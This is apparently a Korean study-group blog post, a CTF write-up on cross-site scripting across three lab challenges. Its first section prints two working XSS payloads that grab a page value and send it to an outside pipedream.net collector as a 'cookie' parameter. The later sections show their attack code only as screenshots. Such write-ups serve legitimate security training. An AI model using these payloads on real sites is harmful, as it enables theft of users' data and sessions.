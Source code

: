 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS - iframe 이용 다른 페이지 data 탈취하기"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-30
last_modified_at: 

tags: [TIL, WEB]
---
```


# CTF - Basic Script Prac
## mypage.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-11.png?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-12.png?raw=true">

1. `<script>alert(1)</script>`로 Reflected XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-13.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-14.gif?raw=true">

* 공격 코드 1  
```html
">
<script>
window.addEventListener('DOMContentLoaded',
    function() {
        let e = document.querySelectorAll('input')[1].placeholder;
        let i = new Image();
        i.src = 'https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie=' + e;
    });
</script>
```

* 공격 코드 2  
```html
">
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">
```

# CTF - Steal Info
## notice_list.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-1.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-2.gif?raw=true">

1. `<script>alert(1)</script>`로 XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-3.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-4.gif?raw=true">

* 공격 코드  
![pre tag가 일을 안 해요](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-9.png?raw=true)

# CTF - Steal Info 2
## notice_list.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-5.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-6.gif?raw=true">

1. `<script>alert(1)</script>`로 Stored XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-7.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-8.gif?raw=true">

* 공격 코드  
![pre tag가 일을 안 해요 2](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-10.png?raw=true)